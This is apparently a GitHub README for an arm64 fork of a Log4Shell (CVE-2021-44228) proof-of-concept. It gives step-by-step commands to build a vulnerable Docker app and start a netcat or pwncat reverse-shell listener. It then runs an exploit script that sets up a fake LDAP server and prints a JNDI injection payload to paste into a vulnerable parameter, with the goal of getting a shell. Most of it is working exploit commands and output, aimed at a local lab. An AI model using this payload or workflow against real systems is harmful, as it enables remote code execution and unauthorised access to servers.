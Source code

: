 # log4j-shell-poc-arm64v8
This is a fork optimized for arm64/v8 systems from [log4j-shell-poc](https://github.com/teimichael/log4j-shell-poc), a Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

## Workflow
### Set Java Environment
- Download `jdk-8u60-linux-arm64-vfp-hflt.tar.gz` from [Oracle archives](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)
- Run
```
tar -xf jdk-8u60-linux-x64.tar.gz
```

### Set Python Environment
```
pip install -r requirements.txt
```

### Build Vulnerable App
```c
docker build -t log4j-shell-poc .
```

### Run Vulnerable App
```c
docker run --network host --name poc log4j-shell-poc
```

### Exploit Vulnerable App

* Start a netcat listener to accept reverse shell connection.
```py
nc -lvnp 9001
```

Or start [pwncat](https://github.com/calebstewart/pwncat)
```py
python3 -m pwncat -lp 9001 -m linux
```

* Launch the exploit.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

Disclaimer
-
This repository is not intended to be a one-click exploit to CVE-2021-44228.
